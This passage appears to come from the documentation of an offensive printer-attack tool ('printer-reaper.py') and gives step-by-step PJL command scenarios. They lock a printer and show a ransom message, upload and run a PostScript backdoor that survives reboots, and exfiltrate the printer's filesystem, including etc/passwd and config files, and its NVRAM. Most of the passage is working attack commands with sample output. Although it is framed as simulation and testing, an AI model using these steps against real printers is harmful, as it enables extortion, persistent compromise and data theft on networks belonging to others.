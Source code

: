 **Objective**: Simulate printer ransomware attack

```bash
# 1. Connect
$ python3 printer-reaper.py 192.168.1.100 pjl

# 2. Lock printer
> lock 31337

# 3. Display ransom message
> display "LOCKED! Contact admin@company.com"

# 4. Take offline
> offline "Printer Encrypted - Pay Ransom"

# 5. (For testing) Unlock
> unlock 31337
```

---

### Scenario 3: Persistent Backdoor

**Objective**: Install persistent backdoor

```bash
# 1. Upload backdoor script
> upload backdoor.ps /webServer/maintenance.ps

# 2. Verify persistence across reboots
> restart
# Wait for restart...
> reconnect
> ls /webServer
-  1024  maintenance.ps  # Still there!

# 3. Execute backdoor
> execute @PJL ENTER LANGUAGE=POSTSCRIPT
> execute (maintenance.ps) run

# 4. Remove backdoor
> backdoor_remove
```

---

### Scenario 4: Data Exfiltration

**Objective**: Exfiltrate all accessible data

```bash
# 1. Mirror entire filesystem
> mirror

Mirroring 0:/
Downloaded: .profile (1276 bytes)
Downloaded: etc/passwd (834 bytes)
Downloaded: etc/hosts (156 bytes)
Downloaded: etc/config.xml (2048 bytes)
...
Total: 156 files, 4.2 MB

# 2. Download NVRAM
> nvram dump > nvram_contents.txt

# 3. Backup configuration
> backup printer_full_backup.cfg
```